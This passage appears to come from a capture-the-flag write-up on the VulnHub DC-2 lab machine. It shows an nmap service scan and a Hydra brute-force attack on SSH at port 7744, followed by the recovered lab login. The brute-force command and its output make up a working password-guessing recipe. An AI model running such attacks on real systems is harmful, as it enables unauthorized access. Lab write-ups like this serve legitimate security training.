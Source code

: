 ```bash
Host is up (0.00094s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-generator: WordPress 4.7.10
|_http-title: DC-2 &#8211; Just another WordPress site
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52517b6e70a4337ad24be10b5a0f9ed7 (DSA)
|   2048 5911d8af38518f41a744b32803809942 (RSA)
|   256 df181d7426cec14f6f2fc12654315191 (ECDSA)
|_  256 d9385f997c0d647e1d46f6e97cc63717 (ED25519)
MAC Address: 08:00:27:41:F5:63 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.94 ms dc-2 (10.0.2.31)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds

```
The same ports were detected, but this time we can see `7744` is hosting a SSH service.
We can try to attack this service with Hydra. Our username and password list can be used to attack this service.

```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ hydra -L users.txt -P passwords.txt $ip -s 7744 ssh
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-03-26 21:14:15
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 4 tasks per 1 server, overall 4 tasks, 4 login tries (l:2/p:2), ~1 try per task
[DATA] attacking ssh://10.0.2.31:7744/
[7744][ssh] host: 10.0.2.31   login: tom   password: parturient
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-03-26 21:14:17

```
Hydra did identify one valid credential pair to logon to the SSH service.
Let's add this to our notes
- SSH credentials
    - `tom:parturient`
